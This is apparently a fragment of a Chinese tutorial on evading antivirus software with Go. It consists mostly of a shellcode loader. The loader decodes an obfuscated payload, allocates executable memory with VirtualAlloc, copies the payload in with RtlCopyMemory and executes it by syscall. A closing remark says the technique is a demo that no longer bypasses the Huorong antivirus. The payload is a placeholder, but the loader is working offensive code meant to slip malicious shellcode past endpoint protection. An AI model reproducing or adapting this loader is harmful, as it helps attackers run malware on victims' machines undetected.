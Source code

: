 ```go

func main() {
	// 此处填写前面混淆后的Shellcode
	var shellcode = "<Shellcode>"
    
    // 解密Shellcode
	charcode := getDeCode(shellcode)

	// 申请内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(charcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 加载Shellcode
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&charcode[0])), uintptr(len(charcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}

	// 执行内存
	syscall.Syscall(addr, 0, 0, 0, 0)
}

```

- 前面加密算法部分待改进，此处仅做演示。现在已过不了火绒了，下班

![Go免杀初探-2](assets/Go免杀初探-2.png)

